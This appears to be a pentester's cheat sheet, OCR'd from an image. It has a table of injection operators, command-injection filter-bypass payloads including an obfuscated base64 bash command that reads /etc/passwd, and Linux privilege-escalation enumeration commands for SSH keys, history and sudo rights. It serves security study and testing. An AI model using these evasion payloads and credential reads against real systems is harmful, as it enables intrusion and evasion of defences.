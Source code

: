 | Injection Type | Operators |
| --- | --- |
| SQL Injection | ' , ; -- /* */ |
| Command Injection | ; && |
| LDAP Injection | * ( ) & | |
| XPath Injection | ' or and not substring concat count |
| OS Command Injection | ; & | |
| Code Injection | ' ; -- /* */ $() ${} #{} %{} ^ |
| Directory Traversal/File Path Traversal | ../ ..\\ %00 |
| Object Injection | ; & | |
| XQuery Injection | ' ; -- /* */ |
| Shellcode Injection | \x \u %u %n |
| Header Injection | \n \r\n \t %0d %0a %09 |
- AND (&&) operator
- OR (||) injection operator
- Bypassing Space Filters
    - New line character
    - Bypass Blacklisted Spaces
        - Using Tabs (%09)
    - Using $IFS
    - Using Brace Expansion 127.0.0.1%0a{ls,-la}
- Bypassing Other Blacklisted Characters
    - use environment variables to add a semi-colon and a space to our payload (127.0.0.1${LS_COLORS:10:1}${IFS}
- Bypassing Blacklisted Commands
    - w'h'o'am'i
    - w"h"o"am"i
    - who$@ami
    - w\ho\am\i
    - windows -who^ami
- Advanced Command Obfuscation
    - Case Manipulation
    - $(rev<<<'imaohw')
    - bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
- Bashfuscator
- DOSfuscation

## Linux PrivEsc

- https://github.com/rebootuser/LinEnum
- List Current Processes
    - ps aux | grep root
- Home Directory Contents
    - ls /home
- User's Home Directory Contents
    - ls -la /home/stacey.jenkins/
- SSH Directory Contents
    - ls -l ~/.ssh
- Bash History
    - history
- Sudo - List User's Privileges
    - sudo -l
- Passwd
    - cat /etc/passwd
- Cron Jobs
    - ls -la /etc/cron.daily/